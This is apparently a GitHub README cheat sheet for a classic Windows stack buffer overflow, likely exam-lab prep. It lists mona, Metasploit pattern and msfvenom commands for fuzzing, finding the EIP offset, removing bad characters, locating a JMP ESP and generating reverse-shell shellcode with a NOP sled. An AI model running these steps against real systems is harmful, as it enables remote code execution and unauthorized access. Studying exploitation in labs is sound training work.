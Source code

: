 # Quick N Dirty Buffer Overflow

## Commands

Set mona as your working directory, this will make generating the bad character byte array easier
```
!mona config -set workingfolder c:\mona\%p
```
  
Modify fuzz.py with the correct IP address and command argument, and run it against the target host
```
python3 fuzz.py
```
  
Create a unique byte pattern with metasplot pattern_create script, set the end number to whatever value the program crashed at +400
```
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 600
```
  
After successfuly crashing the program, run the mona script to find the exact EIP offset. Set the final digit to whatever value the fuzzer initially crashed the program at +400
```
!mona findmsp -distance 600
```
  
Generate a byte array in mona ignoring the known bad characters (this will always start with \x00 until we can determine the other bad characters)
```
!mona bytearray -b "\x00"
```
  
Run badchargen.py and pass it 00 as input (this is because \x00 is the only known bad character at this moment in time)
```
python3 badchargen.py
>> 00
```
  
After successfuly exploiting the program with the bad character payload, run this mona script with whatever value was held by the ESP register at crash (dont forget to fill the retn variable with 4 bytes like BBBB)
```
!mona compare -f C:\mona\oscp\bytearray.bin -a <address>
```
  
Once you are 100% sure that you have excluded all of the bad characters, find a JMP point with mona
```
!mona jmp -r esp -cpb "\x00"
```
  
Generate shellcode with msfvenom using your local host variables and all bad characters
```
msfvenom -p windows/shell_reverse_tcp LHOST=YOUR_IP LPORT=4444 EXITFUNC=thread -b "\x00" -f c
```
  
Don't forget to add NOP sled to the exploit in order for the payload to have room in memory to unpack itself
```
padding = "\x90" * 16
```
